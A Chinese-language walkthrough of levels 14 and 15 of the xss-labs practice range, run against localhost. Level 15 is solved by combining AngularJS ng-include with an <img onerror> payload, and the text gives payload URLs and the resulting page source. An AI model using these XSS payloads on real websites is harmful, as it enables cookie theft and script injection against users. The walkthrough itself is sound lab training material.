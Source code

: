 
## 第 14 关：❌

这关所引用的网站挂了，暂时不做并跳过...



## ⭐️第 15 关：注入带事件属性的 html 标签

发送 Get 请求：`http://localhost/xss-labs/level15.php?src=<script>alert('hi')</script>`，然后右击查看网页源代码，发现输入框 <span> 标签里面的内容被 HTML 实体化了，但是会发现单引号`'`没有被实体化！（但是这里依旧无法利用此漏洞来进行闭合绕过，因为单引号`'`无法闭合前面的双引号`"`）

```html
<span class="ng-include:&lt;script&gt;alert('hi')&lt;/script&gt;"></span>
```

如果你不信，你可以试一下哟，发送以下 Get 请求：

```js
http://localhost/xss-labs/level15.php?src=' onlick='alert()
```

右击查看网页源代码，发现并没注入成功（**证实了单引号`'`无法闭合双引号`"`**）：

```html
<span class="ng-include:' onlick='alert()"></span>
```

所以说重新回到开头，审视指令 `ng-include`：**其是 AngularJS 框架中的一个指令，用于将外部 HTML 文件或 AngularJS 模板包含到当前页面中的指定位置，这样可以实现页面模板化和重用性，使得页面结构更加清晰和易于维护** .

所以说解题思路就很清晰了，如果我们引用一个存在 XSS 漏洞的 HTML 页面到本关页面中，然后进行 XSS 攻击进而导致弹框，那么我们就可以通关啦！！！Let's do it ：

```js
// 将同级目录下，包含漏洞的 'level1.php' 页面引入到本关页面中
http://localhost/xss-labs/level15.php?src='./level1.php'
```

然后再利用 XSS 攻击被包含到本关页面中的 level1.php：

```html
http://localhost/xss-labs/level15.php?src='./level1.php?name=<script>alert()</script>'
```

发现并没有注入成功！源代码如下所示，这是因为：**`ng-include`的特点是如果引入的是 HTML 文件，则不会执行其中的 <script> 标签内的代码！**

```html
<span class="ng-include:'./level1.php?name=&lt;script&gt;alert()&lt;/script&gt;'"></span>
```

那么我们采用新的注入策略，即注入带有事件属性的 html 标签：

**`<img src=1 onerror=alert()>` 解释说明**：当浏览器尝试加载图像失败时（因为`src=1`不是一个有效的图像来源），它会触发`onerror`事件。如果浏览器没有适当的 XSS 防护措施，攻击者可以利用这个事件来执行 JavaScript 代码，比如弹出一个警告框（`alert()`），或者更严重的是，窃取用户的 cookies、执行恶意脚本或者重定向到恶意网站！

```js
http://localhost/xss-labs/level15.php?src='./level1.php?name=<img src=1 onerror=alert()>'
```

发现注入成功！右击查看网页源代码，如下所示：

```html
<span class="ng-include:'./level1.php?name=&lt;img src=1 onerror=alert()&gt;'"></span>
```

